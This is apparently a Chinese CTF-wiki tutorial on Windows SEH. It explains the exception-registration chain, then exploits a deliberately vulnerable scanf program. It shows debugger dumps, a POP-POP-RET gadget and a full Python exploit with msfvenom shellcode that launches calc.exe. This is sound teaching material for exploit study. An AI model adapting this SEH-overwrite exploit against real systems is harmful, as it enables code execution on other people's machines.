 # SEH(Structured Exception Handling)
## Instruction
结构化异常处理（SEH）是一种 Windows 机制，用于一致地处理硬件和软件异常。该结构通常表示为 try / except或try / catch 代码块。
```C
__try {
    // the block of code to try (aka the "guarded body")
    ...
}
__except (exception filter) {
    // the code to run in the event of an exception (aka the "exception handler)
    ...
}
```
异常处理程序可以由应用程序（通过上述 __try / __ except 构造）或由操作系统本身实现。由于错误的类型很多（除零，超出范围等），因此可以有许多相应的异常处理程序。

不论在何处定义异常处理程序（应用程序与操作系统），还是设计异常处理程序的类型，所有处理程序均由 Windows SEH 通过指定数据结构和函数的集合进行集中统一管理。

## SEH的主要组成部分
对于每个异常处理程序，都有一个 Exception Registration Record 结构，如下所示：
```C
typedef struct _EXCEPTION_REGISTRATION_RECORD { 
    struct _EXCEPTION_REGISTRATION_RECORD *Next; 
    PEXCEPTION_ROUTINE Handler; 
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;
```
这些 Exception Registration Record 使用链表的结构连接在一起 。其中的第一个字段（*Next）是指向SEH链中下一个 _EXCEPTION_REGISTRATION_RECORD 的指针。换句话说，可以使用 *Next 从上到下浏览 SEH 链。第二个字段（Handler）是指向异常处理函数的指针，该函数如下所示：
```C
EXCEPTION_DISPOSITION 
__cdecl _except_handler(
    struct _EXCEPTION_RECORD *ExceptionRecord,
    oid EstablisherFrame,
    struct _CONTEXT *ContextRecord,
    void * DispatcherContext
);
```
第一个函数参数是指向 _EXCEPTION_RECORD 结构的指针。该结构包含有关给定异常的信息，包括异常代码，异常地址和参数数量。

_except_handler 函数使用这些信息，以确定异常是否可以由当前异常处理函数处理，或者它需要移交到下一个 Exception Registration Record 进行处理。
![SEH_Chain](./figure/SEH_Chain.jpg)

## 利用SEH
在 SEH 下，直接覆盖 SEH_Handler 字段，然后触发异常后，就可以直接控制程序的执行流。测试程序代码（使用VS2017命令行编译）：
```C
// cl SEH_Chain.c /GS- /DYNAMICBASE:NO /link /FIXED
int vul()
{
    char s[0x20] = {0};
    __try
    {
        scanf("%s",s);
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        puts("GG");
    }        
    return 0;
}

int main(int argc, char **argv)
{
    puts("Welcome!");
    vul();
    return 0;
}
```
未修改的SEH链：
```
地址       异常处理例程   模块/标签     注释
0019FF60    00401E10    seh_chain 
0019FFCC    77A79F80    ntdll     
0019FFE4    77A88F07    ntdll     
```
栈空间：
```
0019FF60  0019FFCC  指向SEH_Record[1]的指针
0019FF64  00401E10  seh_chain.00401E10
0019FF68  E1C62A0A  
0019FF6C  00000000  
0019FF70  0019FF80  
0019FF74  76036359  返回到 kernel32.76036359 自 ???
0019FF78  00379000  
0019FF7C  76036340  kernel32.76036340
0019FF80  0019FFDC  
0019FF84  77A67B74  返回到 ntdll.77A67B74 自 ???
0019FF88  00379000  
0019FF8C  E03A396D  
0019FF90  00000000  
0019FF94  00000000  
0019FF98  00379000  
0019FF9C  00000000  
0019FFA0  00000000  
0019FFA4  00000000  
0019FFA8  00000000  
0019FFAC  00000000  
0019FFB0  00000000  
0019FFB4  00000000  
0019FFB8  00000000  
0019FFBC  00000000  
0019FFC0  00000000  
0019FFC4  0019FF8C  
0019FFC8  00000000  
0019FFCC  0019FFE4  指向SEH_Record[2]的指针
0019FFD0  77A79F80  ntdll.77A79F80
```
可以很清晰的看到SEH链的存在。scanf覆盖之后的SEH链：
```
地址       异常处理例程   模块/标签 注释
0019FF10    42424242  
42424242    00000000  
```
处理例程和下个SEH结构的位置都已经被修改。尝试输入大量数据以触发异常：
```python
python -c "print 'A'*0x28 + 'B'*8 + 'A'*0x200"
```
触发异常后的寄存器：
```
EAX : 00000000
EBX : 00000000
ECX : 42424242
EDX : 77A88DC0     ntdll.77A88DC0
EBP : 0019F0D8
ESP : 0019F0B8
ESI : 00000000
EDI : 00000000
EIP : 42424242
EFLAGS : 00010246
```
可以看到，EIP已经被控制到了输入的 BBBB(42424242) 处，从而控制了程序的执行流。
## SEH的常用利用方式
[attachment here](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/stackoverflow/windows/SEH_Chain_VC6.exe)

EIP被控制后的栈空间：
```
0019F0B8  77A88DA2  返回到 ntdll.77A88DA2 自 ???
0019F0BC  0019F1B8  
0019F0C0  0019FF10  "BBBBBBBBAAAAAAAAAAAAAAAAA... "
0019F0C4  0019F208  
0019F0C8  0019F144  &"BBBBBBBBAAAAAAAAAAAAAAAA... "
0019F0CC  0019F6FC  指向SEH_Record[1]的指针
0019F0D0  77A88DC0  ntdll.77A88DC0
0019F0D4  0019FF10  "BBBBBBBBAAAAAAAAAAAAAAAAA..."
0019F0D8  0019F1A0  
```
可以看到 ESP+0x8 处的地址正好指向触发异常的 SEH 的结构处，当程序未开启 DEP 时，可以通过 POP+POP+RET 的方式，执行到 ShellCode 上。寻找一个 gadget：（x32dbg ->右击->搜索->所有模块->命令，或者其他方法寻找）
```asm
0040292A | 5E | pop esi |
0040292B | 5B | pop ebx |
0040292C | C3 | ret     |
```
编写一个EXP：
```python
from pwintools import *
import struct

def p32(addr):
    return struct.pack("<I",addr)

pop_pop_ret = 0x0040136F

p = Process("./SEH_Chain_VC6.exe")

# msfvenom -p windows/exec CMD=calc.exe -e x86/shikata_ga_nai -b '\x09\x0a\x0b\x0c\x0d\x1a\x20' -f python
buf =  ""
buf += "\xb8\xb6\xc7\xe5\xf9\xda\xdb\xd9\x74\x24\xf4\x5d\x29"
buf += "\xc9\xb1\x31\x83\xed\xfc\x31\x45\x0f\x03\x45\xb9\x25"
buf += "\x10\x05\x2d\x2b\xdb\xf6\xad\x4c\x55\x13\x9c\x4c\x01"
buf += "\x57\x8e\x7c\x41\x35\x22\xf6\x07\xae\xb1\x7a\x80\xc1"
buf += "\x72\x30\xf6\xec\x83\x69\xca\x6f\x07\x70\x1f\x50\x36"
buf += "\xbb\x52\x91\x7f\xa6\x9f\xc3\x28\xac\x32\xf4\x5d\xf8"
buf += "\x8e\x7f\x2d\xec\x96\x9c\xe5\x0f\xb6\x32\x7e\x56\x18"
buf += "\xb4\x53\xe2\x11\xae\xb0\xcf\xe8\x45\x02\xbb\xea\x8f"
buf += "\x5b\x44\x40\xee\x54\xb7\x98\x36\x52\x28\xef\x4e\xa1"
buf += "\xd5\xe8\x94\xd8\x01\x7c\x0f\x7a\xc1\x26\xeb\x7b\x06"
buf += "\xb0\x78\x77\xe3\xb6\x27\x9b\xf2\x1b\x5c\xa7\x7f\x9a"
buf += "\xb3\x2e\x3b\xb9\x17\x6b\x9f\xa0\x0e\xd1\x4e\xdc\x51"
buf += "\xba\x2f\x78\x19\x56\x3b\xf1\x40\x3c\xba\x87\xfe\x72"
buf += "\xbc\x97\x00\x22\xd5\xa6\x8b\xad\xa2\x36\x5e\x8a\x5d"
buf += "\x7d\xc3\xba\xf5\xd8\x91\xff\x9b\xda\x4f\xc3\xa5\x58"
buf += "\x7a\xbb\x51\x40\x0f\xbe\x1e\xc6\xe3\xb2\x0f\xa3\x03"
buf += "\x61\x2f\xe6\x67\xe4\xa3\x6a\x46\x83\x43\x08\x96"

payload = ""
payload += "\x90"*0x28
payload += "\xEB\x14\x90\x90" # asm("jmp $+22")
payload += p32(pop_pop_ret)
payload += "\x90"*0x20
payload += buf
payload = payload.ljust(0x200,"\x90")

raw_input()
p.sendline(payload)
raw_input()
```
执行exp后，将会弹出一个计算器。

